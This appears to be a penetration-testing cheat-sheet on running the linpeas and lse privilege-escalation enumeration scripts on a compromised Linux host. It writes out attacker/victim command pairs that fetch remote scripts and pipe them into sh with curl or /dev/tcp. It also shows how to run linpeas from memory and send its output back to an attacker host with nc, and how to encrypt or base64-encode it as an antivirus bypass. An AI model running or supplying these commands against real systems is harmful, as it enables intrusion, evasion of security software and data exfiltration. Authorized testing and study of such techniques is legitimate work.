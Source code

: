 ```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors

# AV bypass
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

### Lse
+ backup privesc choice.[git](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
# If you see some green yes!, you probably have already some good stuff to work with.
./lse.sh

# If not, you should try the level 1 verbosity with ./lse.sh -l1 and you will see some more information that can be interesting.
./lse.sh -l1

# If that does not help, level 2 will just dump everything you can gather about the service using ./lse.sh -l2. In this case you might find useful to use ./lse.sh -l2 | less -r.
./lse -l2 | less -r

# You can also select what tests to execute by passing the -s parameter. With it you can select specific tests or sections to be executed. For example ./lse.sh -l2 -s usr010,net,pro will execute the test usr010 and all the tests in the sections net and pro.
```
